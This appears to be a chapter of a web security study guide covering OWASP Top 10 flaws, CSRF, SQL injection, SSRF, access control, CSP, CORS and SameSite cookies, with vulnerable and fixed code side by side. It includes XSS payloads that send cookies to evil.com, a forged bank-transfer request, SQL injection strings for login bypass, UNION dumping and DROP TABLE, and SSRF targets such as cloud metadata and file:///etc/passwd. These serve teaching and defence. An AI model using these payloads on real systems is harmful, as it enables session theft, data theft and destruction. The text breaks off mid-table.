








# Part 2 — Web & Application Security

## Table of Contents

- [2.1 OWASP Top 10 Deep Dive](#21-owasp-top-10-deep-dive)
  - [Overview (2021 Edition)](#overview-2021-edition)
  - [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
    - [Types of XSS](#types-of-xss)
    - [Reflected XSS Example](#reflected-xss-example)
    - [Stored XSS Example](#stored-xss-example)
    - [DOM-Based XSS Example](#dom-based-xss-example)
    - [XSS Mitigation Strategies](#xss-mitigation-strategies)
  - [Cross-Site Request Forgery (CSRF)](#cross-site-request-forgery-csrf)
    - [Why CSRF Works](#why-csrf-works)
    - [CSRF Mitigation Strategies](#csrf-mitigation-strategies)
  - [SQL Injection](#sql-injection)
    - [How It Works](#how-it-works)
    - [Types of SQL Injection](#types-of-sql-injection)
    - [SQL Injection Mitigation](#sql-injection-mitigation)
  - [Server-Side Request Forgery (SSRF)](#server-side-request-forgery-ssrf)
    - [Common SSRF Targets](#common-ssrf-targets)
    - [SSRF Mitigation](#ssrf-mitigation)
  - [Broken Access Control](#broken-access-control)
    - [Common Access Control Failures](#common-access-control-failures)
    - [IDOR Example & Fix](#idor-example-and-fix)
    - [Access Control Best Practices](#access-control-best-practices)
- [2.2 CSP, CORS, and SameSite Cookie Flags](#22-csp-cors-and-samesite-cookie-flags)
  - [Content Security Policy (CSP)](#content-security-policy-csp)
    - [How CSP Works](#how-csp-works)
    - [Key CSP Directives](#key-csp-directives)
    - [Progressive CSP Implementation](#progressive-csp-implementation)
  - [CORS (Cross-Origin Resource Sharing)](#cors-cross-origin-resource-sharing)
    - [The Same-Origin Policy](#the-same-origin-policy)
    - [How CORS Works](#how-cors-works)
    - [CORS Headers Reference](#cors-headers-reference)
    - [CORS Security Rules](#cors-security-rules)
  - [SameSite Cookie Flags](#samesite-cookie-flags)
    - [SameSite Values](#samesite-values)
    - [Behavior Comparison](#behavior-comparison)
    - [Recommended Cookie Configuration](#recommended-cookie-configuration)
- [2.3 Encryption Standards](#23-encryption-standards)
  - [Symmetric vs. Asymmetric Encryption](#symmetric-vs-asymmetric-encryption)
    - [Detailed Comparison](#detailed-comparison)
    - [When to Use Each](#when-to-use-each)
  - [TLS/SSL Handshake](#tlsssl-handshake)
    - [TLS 1.3 Handshake (Simplified)](#tls-13-handshake-simplified)
    - [TLS 1.3 vs 1.2 Improvements](#tls-13-vs-12-improvements)
    - [What is Forward Secrecy?](#what-is-forward-secrecy)
  - [Hashing vs. Encryption](#hashing-vs-encryption)
  - [Password Hashing: Bcrypt & Argon2](#password-hashing-bcrypt-and-argon2)
    - [Why Not Use SHA-256 for Passwords?](#why-not-use-sha-256-for-passwords)
    - [Bcrypt](#bcrypt)
    - [Argon2](#argon2)
    - [Password Hashing Comparison](#password-hashing-comparison)
    - [Recommended Parameters (2024)](#recommended-parameters-2024)


## 2.1 OWASP Top 10 Deep Dive

> The **OWASP Top 10** is a standard awareness document representing the most critical security risks to web applications. Updated periodically by the Open Web Application Security Project.

### Overview (2021 Edition)

```mermaid
flowchart TD
    OWASP["🛡️ OWASP Top 10 (2021)"]

    A01["A01: Broken Access Control"]
    A02["A02: Cryptographic Failures"]
    A03["A03: Injection"]
    A04["A04: Insecure Design"]
    A05["A05: Security Misconfiguration"]
    A06["A06: Vulnerable Components"]
    A07["A07: Auth Failures"]
    A08["A08: Software & Data<br/>Integrity Failures"]
    A09["A09: Logging & Monitoring<br/>Failures"]
    A10["A10: SSRF"]

    OWASP --> A01
    OWASP --> A02
    OWASP --> A03
    OWASP --> A04
    OWASP --> A05
    OWASP --> A06
    OWASP --> A07
    OWASP --> A08
    OWASP --> A09
    OWASP --> A10

    style OWASP fill:#d62828,color:#fff
    style A01 fill:#e76f51,color:#fff
    style A03 fill:#e76f51,color:#fff
    style A10 fill:#e76f51,color:#fff
```



We will deep-dive into the most exploited vulnerabilities: **XSS, CSRF, SQL Injection, SSRF, and Broken Access Control**.

---

### Cross-Site Scripting (XSS)

> **XSS** allows an attacker to inject malicious scripts into web pages viewed by other users.

#### Types of XSS



#### Reflected XSS Example

```
❌ Vulnerable URL:
https://example.com/search?q=<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>

❌ Vulnerable Server Code (Express):
app.get('/search', (req, res) => {
  const query = req.query.q;
  res.send(`<h1>Search results for: ${query}</h1>`);  // Direct interpolation!
});

The browser receives:
<h1>Search results for: <script>document.location='https://evil.com/steal?cookie='+document.cookie</script></h1>
→ Script executes in the user's browser context
```

#### Stored XSS Example

```
❌ An attacker posts a comment on a blog:
Comment: "Great post! <script>fetch('https://evil.com/steal', {method:'POST', body:document.cookie})</script>"

This gets stored in the database. Every user who views the comments page
has the malicious script execute in their browser.
```

#### DOM-Based XSS Example

```javascript
// ❌ Vulnerable code — reads from URL fragment and injects into DOM
const userInput = window.location.hash.substring(1);
document.getElementById('greeting').innerHTML = 'Hello, ' + userInput;

// Attack URL: https://example.com/page#
// The server never sees '#' fragment data — it's entirely client-side
```

#### XSS Mitigation Strategies

| Strategy | Implementation | Protects Against |
|---|---|---|
| **Output encoding/escaping** | Encode `<`, `>`, `"`, `'`, `&` when rendering in HTML context | Reflected, Stored |
| **Content Security Policy (CSP)** | Restrict script sources: `script-src 'self'` | All XSS types (defense in depth) |
| **HttpOnly cookies** | `Set-Cookie: token=xxx; HttpOnly` | Cookie theft via XSS |
| **Input validation** | Whitelist allowed characters, reject unexpected patterns | All types (first line of defense) |
| **Use frameworks with auto-escaping** | React (JSX auto-escapes), Angular (built-in sanitization) | Reflected, Stored |
| **Sanitize HTML input** | Use DOMPurify for user-generated rich text | Stored |
| **Avoid dangerous APIs** | Never use `.innerHTML`, `eval()`, `document.write()` with user input | DOM-based |

```javascript
// ✅ SAFE: React auto-escapes by default
function SearchResults({ query }) {
  return <h1>Search results for: {query}</h1>;
  // React escapes the content — <script> tags render as text
}

// ⛔ DANGEROUS: React's escape hatch — dangerouslySetInnerHTML
function SearchResults({ query }) {
  return <h1 dangerouslySetInnerHTML={{ __html: query }} />;
  // This bypasses React's XSS protection!
}

// ✅ SAFE: Server-side output encoding (Express + template)
const escapeHtml = require('escape-html');
app.get('/search', (req, res) => {
  const safeQuery = escapeHtml(req.query.q);
  res.send(`<h1>Search results for: ${safeQuery}</h1>`);
});
```

---

### Cross-Site Request Forgery (CSRF)

> **CSRF** tricks an authenticated user's browser into making an unintended request to a site where they are already logged in.

```mermaid
sequenceDiagram
    participant V as Victim's Browser
    participant E as Evil Site (attacker.com)
    participant B as Bank (bank.com)

    Note over V,B: Victim is logged into bank.com<br/>(has valid session cookie)

    V->>E: Visits attacker.com<br/>(via phishing email link)
    
    Note over E: Evil page contains:<br/>&lt;img src="https://bank.com/transfer?to=attacker&amount=10000"&gt;

    V->>B: GET /transfer?to=attacker&amount=10000<br/>Cookie: session=valid-session-id<br/>(Browser auto-attaches cookie!)

    Note over B: Bank sees valid session,<br/>processes transfer 💸

    B->>V: 200 OK - Transfer Complete
```

#### Why CSRF Works

```
1. The victim is authenticated on the target site (cookie exists)
2. Cookies are sent AUTOMATICALLY by the browser with every request to that domain
3. The target site cannot distinguish between legitimate and forged requests
4. The attacker doesn't need to read the response — they just need the side-effect
```

#### CSRF Mitigation Strategies

| Strategy | How It Works | Effectiveness |
|---|---|---|
| **SameSite Cookie Flag** | `SameSite=Strict` or `Lax` — browser won't send cookies with cross-origin requests | ✅ Excellent (modern browsers) |
| **CSRF Token (Synchronizer Token)** | Server generates a random token, embeds in form/header. Server validates token on submission. | ✅ Excellent (traditional approach) |
| **Double Submit Cookie** | CSRF token in both a cookie and a request header/body. Server checks they match. | ✅ Good |
| **Origin/Referer header checking** | Server validates that the `Origin` or `Referer` header matches expected domain | ⚠️ Moderate (headers can be absent) |
| **Custom request headers** | Require `X-Requested-With: XMLHttpRequest` — simple requests can't set custom headers | ⚠️ Moderate (CORS preflight protection) |

```javascript
// ✅ CSRF Token Implementation (Express + csurf middleware)
const csrf = require('csurf');
const csrfProtection = csrf({ cookie: true });

// Provide CSRF token to the client
app.get('/form', csrfProtection, (req, res) => {
  res.render('transfer-form', { csrfToken: req.csrfToken() });
});

// Validate CSRF token on submission
app.post('/transfer', csrfProtection, (req, res) => {
  // csurf middleware automatically validates the _csrf token
  // If invalid, it throws a 403 error
  processTransfer(req.body);
  res.send('Transfer successful');
});

// In the HTML form:
// <form method="POST" action="/transfer">
//   <input type="hidden" name="_csrf" value="{{csrfToken}}">
//   <input type="text" name="to">
//   <input type="number" name="amount">
//   <button type="submit">Transfer</button>
// </form>
```

---

### SQL Injection

> **SQL Injection** occurs when an attacker can insert or modify SQL queries by manipulating user input that is directly incorporated into SQL statements.

#### How It Works

```sql
-- ❌ Vulnerable code (Python + raw SQL):
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"

-- Normal input:
-- username = "alice", password = "secret123"
-- Query: SELECT * FROM users WHERE username = 'alice' AND password = 'secret123'

-- 🔴 ATTACK input:
-- username = "admin' --", password = "anything"
-- Query: SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything'
--                                                      ^^
--                                         The -- comments out the rest!
--                                         Password check is BYPASSED!

-- 🔴 EVEN WORSE - Data exfiltration:
-- username = "' UNION SELECT credit_card, cvv, expiry, null FROM payment_info --"
-- This dumps the entire payment_info table!

-- 🔴 DESTRUCTIVE:
-- username = "'; DROP TABLE users; --"
-- This DELETES the entire users table!
```

#### Types of SQL Injection

| Type | Description | Detection |
|---|---|---|
| **In-band (Classic)** | Results returned directly in the application response | Easy to detect |
| **Error-based** | Database error messages leak information | Moderate |
| **UNION-based** | Attacker uses UNION to combine results from other tables | Moderate |
| **Blind (Boolean)** | No direct output; attacker infers data from true/false responses | Harder to detect |
| **Blind (Time-based)** | No output; attacker uses `SLEEP()` or `WAITFOR DELAY` to infer data | Hardest to detect |
| **Out-of-band** | Data exfiltrated via DNS or HTTP requests from the DB server | Rare, advanced |

#### SQL Injection Mitigation

```python
# ❌ VULNERABLE — String concatenation / interpolation
cursor.execute(f"SELECT * FROM users WHERE id = {user_id}")

# ✅ SAFE — Parameterized query (prepared statement)
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))
# The database treats user_id as DATA, never as SQL code

# ✅ SAFE — Using an ORM (SQLAlchemy)
user = session.query(User).filter(User.id == user_id).first()
# The ORM handles parameterization internally
```

```javascript
// ❌ VULNERABLE (Node.js + raw SQL)
const query = `SELECT * FROM users WHERE email = '${req.body.email}'`;
db.query(query);

// ✅ SAFE — Parameterized query
db.query('SELECT * FROM users WHERE email = $1', [req.body.email]);

// ✅ SAFE — Using an ORM (Prisma)
const user = await prisma.user.findUnique({ where: { email: req.body.email } });
```

**Additional defenses:**

| Defense | Purpose |
|---|---|
| **Parameterized queries / Prepared statements** | Primary defense — separates code from data |
| **ORM usage** | Abstracts SQL; handles parameterization |
| **Input validation** | Whitelist expected formats (e.g., email regex, numeric IDs) |
| **Least privilege DB accounts** | App DB user should NOT have DROP, ALTER, GRANT permissions |
| **WAF (Web Application Firewall)** | Detects and blocks common injection patterns |
| **Stored procedures** | Can limit SQL surface area (but must still use parameters) |
| **Escaping** | Last resort — use parameterized queries instead |

---

### Server-Side Request Forgery (SSRF)

> **SSRF** occurs when an attacker can make the server send HTTP requests to arbitrary destinations, including internal services.



#### Common SSRF Targets

```
http://169.254.169.254/...        ← AWS/GCP/Azure metadata endpoint
http://localhost:6379/...          ← Internal Redis
http://internal-admin:8080/...    ← Internal admin panels
http://10.0.0.0/8                 ← Private network services
file:///etc/passwd                ← Local file system
gopher://...                      ← Protocol smuggling
```

#### SSRF Mitigation

| Strategy | Implementation |
|---|---|
| **URL allowlisting** | Only permit requests to known, trusted domains |
| **Block private IP ranges** | Deny `10.x.x.x`, `172.16-31.x.x`, `192.168.x.x`, `127.x.x.x`, `169.254.x.x` |
| **Disable unnecessary protocols** | Block `file://`, `gopher://`, `dict://`, `ftp://` |
| **Network segmentation** | Place the application in a network segment without access to sensitive internal services |
| **Use a proxy/gateway** | Route outbound requests through a proxy that enforces rules |
| **IMDSv2 (AWS)** | Use Instance Metadata Service v2, which requires a session token |
| **DNS resolution validation** | Resolve the hostname FIRST, then verify the IP isn't internal before connecting |

```python
# ✅ SSRF Protection — validate URL before fetching
import ipaddress
from urllib.parse import urlparse
import socket
import requests

BLOCKED_NETWORKS = [
    ipaddress.ip_network('10.0.0.0/8'),
    ipaddress.ip_network('172.16.0.0/12'),
    ipaddress.ip_network('192.168.0.0/16'),
    ipaddress.ip_network('127.0.0.0/8'),
    ipaddress.ip_network('169.254.0.0/16'),  # Link-local (cloud metadata)
    ipaddress.ip_network('0.0.0.0/8'),
]

ALLOWED_SCHEMES = {'http', 'https'}

def is_safe_url(url: str) -> bool:
    """Validate that a URL doesn't target internal resources."""
    parsed = urlparse(url)
    
    # Check scheme
    if parsed.scheme not in ALLOWED_SCHEMES:
        return False
    
    # Resolve hostname to IP
    try:
        ip = ipaddress.ip_address(socket.gethostbyname(parsed.hostname))
    except (socket.gaierror, ValueError):
        return False
    
    # Check against blocked networks
    for network in BLOCKED_NETWORKS:
        if ip in network:
            return False
    
    return True

def safe_fetch(url: str):
    if not is_safe_url(url):
        raise ValueError(f"URL blocked by SSRF protection: {url}")
    return requests.get(url, timeout=5)
```

---

### Broken Access Control

> **Broken Access Control** is the #1 vulnerability in the OWASP Top 10 (2021). It occurs when users can act outside their intended permissions.

#### Common Access Control Failures



#### IDOR Example & Fix

```javascript
// ❌ VULNERABLE — No authorization check
app.get('/api/orders/:orderId', async (req, res) => {
  const order = await Order.findById(req.params.orderId);
  res.json(order); // Any authenticated user can view ANY order!
});

// ✅ SAFE — Verify the order belongs to the authenticated user
app.get('/api/orders/:orderId', authenticate, async (req, res) => {
  const order = await Order.findOne({
    _id: req.params.orderId,
    userId: req.user.id   // Only return if the order belongs to this user
  });
  
  if (!order) {
    return res.status(404).json({ error: 'Order not found' });
    // Return 404, not 403, to avoid revealing that the order exists
  }
  
  res.json(order);
});
```

#### Access Control Best Practices

```
✅ Deny by default — explicitly grant access, don't explicitly deny
✅ Enforce authorization on EVERY endpoint (server-side, never client-only)
✅ Use role-based (RBAC) or attribute-based (ABAC) access control
✅ Validate object ownership — don't just check "is authenticated"
✅ Use indirect references (UUIDs) instead of sequential IDs
✅ Log all access control failures for monitoring
✅ Rate-limit authentication and sensitive endpoints
✅ Re-authenticate for sensitive operations (password change, payment)
✅ Implement proper multi-tenancy data isolation
```

---

## 2.2 CSP, CORS, and SameSite Cookie Flags

### Content Security Policy (CSP)

> **CSP** is an HTTP response header that tells the browser which sources of content are allowed to be loaded and executed. It is a powerful defense-in-depth mechanism against XSS.

#### How CSP Works



#### Key CSP Directives

| Directive                  | Controls                           | Example                                      |
| ----------------------------| ------------------------------------| ----------------------------------------------|
| `default-src`              | Fallback for all other directives  | `default-src 'self'`                         |
| `script-src`               | JavaScript sources                 | `script-src 'self' https://cdn.example.com`  |
| `style-src`                | CSS sources                        | `style-src 'self' 'unsafe-inline'`           |
| `img-src`                  | Image sources                      | `img-src 'self' data: https:`                |
| `connect-src`              | XHR, WebSocket, fetch destinations | `connect-src 'self' https://api.example.com` |
| `font-src`                 | Web font sources                   | `font-src 'self' https://fonts.gstatic.com`  |
| `frame-src`                | iframe sources                     | `frame-src 'none'`                           |
| `object-src`               | Plugin sources (Flash, Java)       | `object-src 'none'`                          |
| `base-uri`                 | Restricts `<base>` element         | `base-uri 'self'`                            |
| `form-action`              | Form submission targets            | `form-action 'self'`                         |
| `report-uri` / `report-to` | Where to send violation reports    | `report-uri /csp-report`                     |

#### Progressive CSP Implementation

```
# Step 1: Report-Only mode (monitor, don't enforce)
Content-Security-Policy-Report-Only: default-src 'self'; report-uri /csp-report

# Step 2: Strict policy with nonces (recommended)
Content-Security-Policy: 
  default-src 'self';
  script-src 'self' 'nonce-{random-per-request}';
  style-src 'self' 'nonce-{random-per-request}';
  img-src 'self' data: https:;
  font-src 'self' https://fonts.gstatic.com;
  connect-src 'self' https://api.example.com;
  frame-src 'none';
  object-src 'none';
  base-uri 'self';
  form-action 'self';
  report-uri /csp-report

# Step 3: Use 'strict-dynamic' for modern apps with bundled scripts
Content-Security-Policy:
  script-src 'nonce-{random}' 'strict-dynamic';
  object-src 'none';
  base-uri 'self';
```

```javascript
// Express.js — CSP with per-request nonces
const crypto = require('crypto');

app.use((req, res, next) => {
  const nonce = crypto.randomBytes(16).toString('base64');
  res.locals.cspNonce = nonce;
  
  res.setHeader('Content-Security-Policy', [
    `default-src 'self'`,
    `script-src 'self' 'nonce-${nonce}'`,
    `style-src 'self' 'nonce-${nonce}'`,
    `img-src 'self' data: https:`,
    `object-src 'none'`,
    `base-uri 'self'`,
  ].join('; '));
  
  next();
});

// In your template (EJS example):
// <script nonce="<%= cspNonce %>">
//   // This script will execute because it has a valid nonce
// </script>
```

---

### CORS (Cross-Origin Resource Sharing)

> **CORS** is a browser security mechanism that controls which origins (domains) are allowed to make requests to your server. It relaxes the **Same-Origin Policy** in a controlled manner.

#### The Same-Origin Policy

```
Two URLs have the same origin if they share the same:
  ✅ Protocol (https)
  ✅ Host (example.com)
  ✅ Port (443)

Examples:
  https://example.com/page1  →  https://example.com/page2     ✅ Same origin
  https://example.com        →  http://example.com             ❌ Different protocol
  https://example.com        →  https://api.example.com        ❌ Different host
  https://example.com        →  https://example.com:8080       ❌ Different port
```

#### How CORS Works



#### CORS Headers Reference

| Header | Set By | Purpose |
|---|---|---|
| `Access-Control-Allow-Origin` | Server | Which origins are allowed (`*` or specific origin) |
| `Access-Control-Allow-Methods` | Server | Which HTTP methods are allowed |
| `Access-Control-Allow-Headers` | Server | Which request headers are allowed |
| `Access-Control-Allow-Credentials` | Server | Whether cookies/auth headers are sent (`true`/omitted) |
| `Access-Control-Max-Age` | Server | How long (seconds) the preflight result is cached |
| `Access-Control-Expose-Headers` | Server | Which response headers the browser can access |
| `Origin` | Browser | Automatically set by browser — the requesting origin |

#### CORS Security Rules

```
⛔ NEVER: Access-Control-Allow-Origin: *  WITH  Access-Control-Allow-Credentials: true
   → Browsers reject this combination for security reasons

⛔ NEVER: Dynamically reflect the Origin header as Allow-Origin without validation
   → This effectively disables CORS for ALL origins

✅ DO: Whitelist specific origins
✅ DO: Validate the Origin header against a known list
✅ DO: Return only the matched origin, not all allowed origins
```

```javascript
// ✅ SAFE CORS Configuration (Express.js)
const cors = require('cors');

const allowedOrigins = [
  'https://app.example.com',
  'https://admin.example.com',
];

app.use(cors({
  origin: (origin, callback) => {
    // Allow requests with no origin (mobile apps, curl, server-to-server)
    if (!origin) return callback(null, true);
    
    if (allowedOrigins.includes(origin)) {
      callback(null, origin);
    } else {
      callback(new Error(`Origin ${origin} not allowed by CORS`));
    }
  },
  methods: ['GET', 'POST', 'PUT', 'DELETE'],
  allowedHeaders: ['Content-Type', 'Authorization'],
  credentials: true,  // Allow cookies
  maxAge: 86400,       // Cache preflight for 24 hours
}));
```

---

### SameSite Cookie Flags

> The **SameSite** attribute controls whether cookies are sent with cross-site requests. It is the **primary browser-level defense against CSRF**.

#### SameSite Values



#### Behavior Comparison

| Scenario | `Strict` | `Lax` | `None` |
|---|---|---|---|
| User clicks link from email to your site | ⛔ Cookie not sent | ✅ Cookie sent | ✅ Cookie sent |
